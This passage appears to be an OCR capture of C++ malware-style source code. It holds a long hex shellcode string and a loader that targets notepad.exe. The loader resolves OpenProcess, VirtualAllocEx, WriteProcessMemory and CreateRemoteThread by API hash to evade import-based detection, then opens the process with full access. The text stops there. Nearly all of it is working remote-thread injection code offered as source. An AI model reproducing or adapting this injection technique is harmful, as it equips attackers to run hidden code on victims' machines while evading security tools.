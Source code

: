 ```cpp
C8\x48\x8B\xC1\x0F\xBE\x00\x85\xC0\x75\x17\x48\x8B\x44\x24\x60\x8B\x00\x48\x8B\x8C\x24\x80\x00\x00\x00\x48\x03\xC8\x48\x8B\xC1\xEB\x07\xE9\xA0\xFE\xFF\xFF\x33\xC0\x48\x83\xC4\x78\xC3\x48\x89\x4C\x24\x08\x56\x57\x48\x83\xEC\x68\x48\xC7\x44\x24\x30\x00\x00\x00\x00\x65\x48\x8B\x04\x25\x60\x00\x00\x00\x48\x89\x44\x24\x30\x48\x8B\x44\x24\x30\x48\x8B\x40\x18\x48\x89\x44\x24\x38\x48\x8D\x44\x24\x48\x48\x8B\x4C\x24\x38\x48\x8B\xF8\x48\x8D\x71\x10\xB9\x10\x00\x00\x00\xF3\xA4\x48\x8B\x44\x24\x48\x48\x89\x44\x24\x40\x48\x8B\x44\x24\x40\x48\x89\x44\x24\x20\x48\x83\x7C\x24\x20\x00\x0F\x84\xC6\x01\x00\x00\x48\x8B\x44\x24\x20\x48\x83\x78\x30\x00\x0F\x84\xB6\x01\x00\x00\x48\x8B\x44\x24\x20\x48\x83\x78\x60\x00\x75\x02\xEB\xD6\x48\x8B\x44\x24\x20\x48\x8B\x40\x60\x48\x89\x44\x24\x18\x48\xC7\x04\x24\x00\x00\x00\x00\x48\xC7\x04\x24\x00\x00\x00\x00\xEB\x0B\x48\x8B\x04\x24\x48\xFF\xC0\x48\x89\x04\x24\x48\x8B\x84\x24\x80\x00\x00\x00\x48\x8B\x0C\x24\x0F\xB7\x04\x48\x85\xC0\x0F\x84\x23\x01\x00\x00\x48\x8B\x44\x24\x18\x48\x8B\x0C\x24\x0F\xB7\x04\x48\x85\xC0\x0F\x84\x0E\x01\x00\x00\x48\x8B\x84\x24\x80\x00\x00\x00\x48\x8B\x0C\x24\x0F\xB7\x04\x48\x83\xF8\x5A\x7F\x50\x48\x8B\x84\x24\x80\x00\x00\x00\x48\x8B\x0C\x24\x0F\xB7\x04\x48\x83\xF8\x41\x7C\x3B\x48\x8B\x84\x24\x80\x00\x00\x00\x48\x8B\x0C\x24\x0F\xB7\x04\x48\x83\xE8\x41\x83\xC0\x61\x89\x44\x24\x28\x48\x8B\x84\x24\x80\x00\x00\x00\x48\x8B\x0C\x24\x0F\xB7\x54\x24\x28\x66\x89\x14\x48\x0F\xB7\x44\x24\x28\x66\x89\x44\x24\x08\xEB\x15\x48\x8B\x84\x24\x80\x00\x00\x00\x48\x8B\x0C\x24\x0F\xB7\x04\x48\x66\x89\x44\x24\x08\x0F\xB7\x44\x24\x08\x66\x89\x44\x24\x0C\x48\x8B\x44\x24\x18\x48\x8B\x0C\x24\x0F\xB7\x04\x48\x83\xF8\x5A\x7F\x47\x48\x8B\x44\x24\x18\x48\x8B\x0C\x24\x0F\xB7\x04\x48\x83\xF8\x41\x7C\x35\x48\x8B\x44\x24\x18\x48\x8B\x0C\x24\x0F\xB7\x04\x48\x83\xE8\x41\x83\xC0\x61\x89\x44\x24\x2C\x48\x8B\x44\x24\x18\x48\x8B\x0C\x24\x0F\xB7\x54\x24\x2C\x66\x89\x14\x48\x0F\xB7\x44\x24\x2C\x66\x89\x44\x24\x0A\xEB\x12\x48\x8B\x44\x24\x18\x48\x8B\x0C\x24\x0F\xB7\x04\x48\x66\x89\x44\x24\x0A\x0F\xB7\x44\x24\x0A\x66\x89\x44\x24\x10\x0F\xB7\x44\x24\x0C\x0F\xB7\x4C\x24\x10\x3B\xC1\x74\x02\xEB\x05\xE9\xBA\xFE\xFF\xFF\x48\x8B\x84\x24\x80\x00\x00\x00\x48\x8B\x0C\x24\x0F\xB7\x04\x48\x85\xC0\x75\x1C\x48\x8B\x44\x24\x18\x48\x8B\x0C\x24\x0F\xB7\x04\x48\x85\xC0\x75\x0B\x48\x8B\x44\x24\x20\x48\x8B\x40\x30\xEB\x14\x48\x8B\x44\x24\x20\x48\x8B\x00\x48\x89\x44\x24\x20\xE9\x2E\xFE\xFF\xFF\x33\xC0\x48\x83\xC4\x68\x5F\x5E\xC3";

	std::cout << "[+] Starting ..." << std::endl;
	const TCHAR* processName = TEXT("notepad.exe");

	// Retrieve the ProcessID of notepad.exe
	DWORD pid = getPID(processName);
	std::cout << "PID of " << &processName << " is : " << pid << std::endl;
	
	// Resolve the address of OpenProcess from the hash
	PDWORD convertOpenProcess = getFunctionAddressByHash((char*)"kernel32", 0x4105fc56);
	customOpenProcess openProcess = (customOpenProcess)convertOpenProcess;

	// Resolve the address of VirtualAllocEx from the hash
	PDWORD virtualAllocExFunction = getFunctionAddressByHash((char*)"kernel32", 0xaeb6049c);
	customVirtualAllocEx virtualAllocEx = (customVirtualAllocEx)virtualAllocExFunction;

	// Resolve the address of WriteProcessMemory from the hash
	PDWORD writeProcessMemoryFunction = getFunctionAddressByHash((char*)"kernel32", 0xc0088eea);
	customWriteProcessMemory writeProcessMemory =
    (customWriteProcessMemory)writeProcessMemoryFunction;

	// Resolve the address of CreateRemoteThread from the hash
	PDWORD createRemoteThreadFunction = getFunctionAddressByHash((char*)"kernel32", 0xc398c463);
	customCreateRemoteThread createRemoteThread =
    (customCreateRemoteThread)createRemoteThreadFunction;

	// Resolve the address of CloseHandle from the hash
	PDWORD convertCloseHandle = getFunctionAddressByHash((char*)"kernel32", 0xfaba0065);
	customCloseHandle closeHandle = (customCloseHandle)convertCloseHandle;

	// Resolve the address of WaitForSingleObject from the hash
	PDWORD convertWaitForSingleObjectEx = getFunctionAddressByHash((char*)"kernel32", 0xf8d32811);
	customWaitForSingleObjectEx waitForSingleObjectEx =
    (customWaitForSingleObjectEx)convertWaitForSingleObjectEx;


	std::cout << "[+] Executing OpenProcess ..." << std::endl;
	HANDLE hProcess = openProcess(PROCESS_ALL_ACCESS, FALSE, pid);
```